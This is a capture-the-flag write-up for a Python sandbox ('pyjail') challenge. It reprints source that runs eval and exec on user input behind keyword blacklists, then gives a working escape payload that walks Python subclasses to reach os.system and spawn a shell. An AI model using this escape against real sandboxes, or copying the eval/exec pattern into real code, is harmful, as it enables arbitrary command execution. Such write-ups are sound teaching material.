 # list-dir-list
> i am inside '.'. find me out

## About the Challenge
We have been given a server to connect and the source code
```
nc chall.foobar.nitdgplug.org 30012
```
And here is the python code
```python
import random
key = open('key.txt').read()
random.seed(2023)
enc_key = ""

for j in range(8):
    i = 0
    lst = []
    while i < len(key):
        lst.append(key[i+j])
        i += 8

    random.shuffle(lst)
    for c in lst:
        enc_key += c

print("this may be helpful:")
print(enc_key)



blacklist = [
    "import",
    "os",
    "sys",
    "ls",
    "cat",
    "la",
    "flag",
    "tac",
    "key",
]

strictly_prohibited = [
    "apt",
    "install",
    "cd",
    "builtins",
    "subprocess",
    "exec",
    "eval",
    "input",
    "blacklist",
    "strictly_prohibited",
    "echo",
    "grep",
    "find",
    "pickle",
    "key",
    "write"
]

while True:
    cmd = input(">>> ")
    evl_cmd = eval(cmd)
    can_run = True
    for word in strictly_prohibited:
        if word in evl_cmd.lower():
            can_run = False
            break

    if can_run:
        if evl_cmd[0:len(key)] == key:
            exec(evl_cmd[len(key):])
        else:
            for word in blacklist:
                if word in evl_cmd.lower():
                    can_run = False
                    break

            if can_run:
                exec(evl_cmd)
```

So the code is about pyjail, we need to escape from the sandbox but there are some restrictions, We cant using some keywords that already stated on `blacklist` and `strictly_prohibited` array. Here is the preview:

![preview](images/preview.png)

## How to Solve?
Im using https://okman.gitbook.io/okman-writeups/miscellaneous-challenges/redpwnctf-albatross as a reference. And here is my final payload

```
().__class__.__base__.__subclasses__()[137].__init__.__globals__["system"]("sh")
```

This command is using some advanced Python features to execute a system command by accessing a specific subclass of `object` and calling a `global` function or method defined within that subclass

![flag](images/flag.png)

After escaping from the sandbox, try to read the `flag.txt` file to get the flag

```
GLUG{h0w_did_u_9u3$$_:(}
```